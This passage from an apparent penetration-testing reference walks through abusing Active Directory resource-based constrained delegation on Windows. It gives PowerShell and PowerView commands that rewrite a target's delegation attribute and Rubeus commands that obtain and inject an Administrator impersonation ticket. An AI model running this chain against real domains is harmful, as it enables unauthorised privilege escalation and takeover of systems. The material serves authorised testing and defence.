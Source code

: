 Once the ticket is obtained, it can be used with [pass-the-ticket](pass-the-ticket.md).
{% endtab %}

{% tab title="Windows" %}
In order to run the following commands and tools as other users, testers can check the [user impersonation](../credentials/impersonation.md) part.

**1 - Check the value** 🔎 **& Create the computer account** ⚒\*\*\*\*

Check the [MachineAccountQuota](../domain-settings/machineaccountquota.md) page

**2 - Edit the target's security descriptor** ✏ ****

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object \(in this case, to modify the delegation rights\).

```bash
# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'PENTEST01$'

# Read the attribute
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute \([source](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html?highlight=genericall#id31)\).

```bash
# Obtain the SID of the controlled computer account
$ComputerSid = Get-DomainComputer 'PENTEST01' -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

**3 - Obtain a ticket** 🎫 ****

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the "impersonation ST" and inject it for later use.

```bash
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Rubeus.exe hash /password:$password
```
